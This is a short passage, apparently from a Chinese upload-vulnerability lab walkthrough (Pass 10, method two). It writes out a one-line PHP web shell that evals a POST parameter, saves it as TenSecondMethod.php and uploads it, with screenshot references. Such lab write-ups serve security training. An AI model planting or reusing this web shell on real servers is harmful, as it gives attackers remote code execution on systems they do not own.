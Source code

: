 

### 方法二

+ 编辑脚本<code>TenSecondMethod.php</code>

~~~ shell
<?php @eval($_POST['TenSecond']); ?>
~~~

![Pass10_4](./img/Pass10_4.png)



+ 上传文件<code>TenSecondMethod.php</code>

![Pass10_11](./img/Pass10_11.PNG)
